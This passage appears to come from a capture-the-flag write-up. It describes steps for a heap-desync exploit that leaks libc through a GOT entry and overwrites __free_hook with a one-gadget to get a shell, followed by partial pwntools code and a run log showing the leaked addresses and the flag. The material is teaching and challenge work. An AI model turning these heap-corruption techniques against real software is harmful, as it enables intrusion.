 At this point, all the necessary fake structures are in place.

5) Trigger the buffer coalesce by freeing B3

6) Allocate a new buffer B5. This time, because the heap is desynced, we get a misaligned address and B5 contents overlap with some of B1. In particular, at B5 + 32 there is the Transaction Name pointer for B1.

7) Use the payload of B5 to overwrite B1 Transaction Name pointer and point it to the binary GOT entry of a libc function. In the exploit, 'puts' is selected.

8) Use P.2 through B1 to read the address in the GOT and extract the libc base

9) Free B5 and reallocate it. In this case, in the payload, store at B5 + 32 the address of __free_hook.

10) Use P.2 through B1 to write to __free_hook the address of the libc one-gadget

11) Use P.4 over the dummy buffer allocated at the start to trigger the shell and enjoying the party.

Exploit (dirty python written by a C developer and gloriously uncommented) follows


### Exploit
```python
from pwn import *

def brute_payload(proof, pay):
    def md5(data):
        import hashlib
        m = hashlib.md5()
        m.update(data)
        return m.hexdigest()
    i = 0
    while True:
        pay2 = (pay+str(i)).ljust(224)
        h = md5(pay2)
        if proof[:2] == h[:2]:
                return pay2
        i += 1

def eat_menu(io):
    io.recvuntil(":", timeout=4)

def alloc_buffer(io, payload='aaa', tname='dummy'):
    io.sendline("1")
    md5_line = io.recvline().split()[-1]
    addr = io.recvline().split()[-1]
    eat_menu(io)
    good_payload = brute_payload(md5_line, payload)
    io.send(good_payload)
    eat_menu(io)
    io.sendline(tname)
    eat_menu(io)
    log.info("buffer allocated at 0x{:x}".format(addr))
    return addr

def free_buffer(io, id):
    io.sendline("4")
    eat_menu(io)
    io.sendline(id)
    eat_menu(io)
    log.info("buffer {} freed".format(id))

context.log_level = "INFO"
context.binary    = "./proof_of_pown2"
libc              = ELF("./libc.so.6")
```

[INFO]:  Opening binary ./libc.so.6
[INFO]:  Opening binary ./proof_of_pwn
[INFO]:  Process started with PID 17148 ./proof_of_pwn
[INFO]:  required proof: 289510e3b590959fb0b0177fe57612d3
[INFO]:  libc base:      0x7f10f5e8e000
[INFO]:  system:         0x7f10f5ed3390
[INFO]:  binsh:          0x7f10f601ad57
[INFO]:  required proof: b222d1572a57e35c7416ff32e234f90a
[INFO]:  flag:           ptm{p00r_8rut3f0rc1ng_c4n_h3lp}
[INFO]:  Process 17148 exited with code -7